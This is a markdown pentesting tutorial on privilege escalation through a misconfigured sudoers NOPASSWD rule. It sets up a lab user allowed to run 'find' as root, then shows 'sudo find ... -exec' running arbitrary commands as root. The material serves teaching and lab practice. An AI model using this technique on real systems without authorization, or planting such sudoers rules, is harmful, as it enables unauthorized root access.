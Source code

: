 ```yaml
---
title: Misconfigured SUDO Permissions
layout: default
parent: Linux Vulnerabilities
grand_parent: Pentesting
nav_order: 1
---
```


# Misconfigured SUDO Permissions

## Introduction

'sudo' is a fundamental Linux binary that grants users the ability to execute commands with the elevated privileges of the root user. The configuration for 'sudo' is maintained in the /etc/sudoers file, where specific permissions are defined, dictating which commands a user is authorized to run with root privileges.

Typically, when a user employs 'sudo' to execute a command, they are prompted to provide their password as a security measure. However, system administrators have the flexibility to customize the behavior through the /etc/sudoers file. This file may be configured to allow a user to run specific binaries with root privileges without the need for a password prompt.

## Step-by-Step Guide

### **Setup**

#### 1. Create a user that should not be a sudo group user

```bash
user@user-vm:~$ sudo adduser notroot
```
![Add 'notroot' user](add_notroot_user.png)

#### 2. Modify the /etc/sudoers file to allow the created user to execute 'find' command using 'sudo', without being prompted for the password 

Run visudo to edit the */etc/sudoers* file:

```bash
user@user-vm:~$ sudo visudo
```

On the sudoers file, add line:
```bash
# <chosen_user> ALL=(root) NOPASSWD: <sample_binary>
notroot ALL=(root) NOPASSWD: /usr/bin/find
```
![Add 'notroot' user to sudoers for find command](add_notroot_sudo_permission.png)


Above command allows 'notroot' user to use 'find' as root without password prompt.

### **Exploitation**

#### 1. Switch or Login as 'notroot'

```bash
notroot@user-vm:~$ 
```

#### 2. Verify the commands the user can run with SUDO

```bash
notroot@user-vm:~$ sudo -l
```
![Verify the user's sudo commands](verify_user_sudo_commands.png)

Above result shows 'root' permission to run '/usr/bin/find' without password.

#### 3. Exploit: Execute any command within 'sudo find' command

```bash
notroot@user-vm:~$ touch <file_name>
notroot@user-vm:~$ sudo find <file_name> -exec <command> \;
```
Commands run using find would be elevated to root, without asking password.

![Execute any command](execute_any_command.png)


## Video Demonstration

[<img src="https://img.youtube.com/vi/F6aMPdU597g/hqdefault.jpg"
/>](https://www.youtube.com/embed/F6aMPdU597g)


## Reference
https://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights/


